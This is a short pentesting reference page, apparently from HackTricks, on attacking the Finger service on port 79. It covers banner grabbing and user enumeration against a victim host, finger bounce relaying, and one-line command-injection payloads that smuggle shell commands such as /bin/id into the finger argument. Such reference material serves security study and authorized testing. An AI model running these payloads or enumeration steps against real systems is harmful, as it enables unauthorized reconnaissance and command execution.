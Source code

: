 # 79 - Pentesting Finger

{{#include ../banners/hacktricks-training.md}}


## **Basic Info**

The **Finger** program/service is utilized for retrieving details about computer users. Typically, the information provided includes the **user's login name, full name**, and, in some cases, additional details. These extra details could encompass the office location and phone number (if available), the time the user logged in, the period of inactivity (idle time), the last instance mail was read by the user, and the contents of the user's plan and project files.

**Default port:** 79

```
PORT   STATE SERVICE
79/tcp open  finger
```

## **Enumeration**

### **Banner Grabbing/Basic connection**

```bash
nc -vn <IP> 79
echo "root" | nc -vn <IP> 79
```

### **User enumeration**

```bash
finger @<Victim>       #List users
finger admin@<Victim>  #Get info of user
finger user@<Victim>   #Get info of user
```

Alternatively you can use **finger-user-enum** from [**pentestmonkey**](http://pentestmonkey.net/tools/user-enumeration/finger-user-enum), some examples:

```bash
finger-user-enum.pl -U users.txt -t 10.0.0.1
finger-user-enum.pl -u root -t 10.0.0.1
finger-user-enum.pl -U users.txt -T ips.txt
```

#### **Nmap execute a script for doing using default scripts**

### Metasploit uses more tricks than Nmap

```
use auxiliary/scanner/finger/finger_users
```

### Shodan

- `port:79 USER`

## Command execution

```bash
finger "|/bin/id@example.com"
finger "|/bin/ls -a /@example.com"
```

## Finger Bounce

[Use a system as a finger relay](https://securiteam.com/exploits/2BUQ2RFQ0I/)

```
finger user@host@victim
finger @internal@external
```


{{#include ../banners/hacktricks-training.md}}


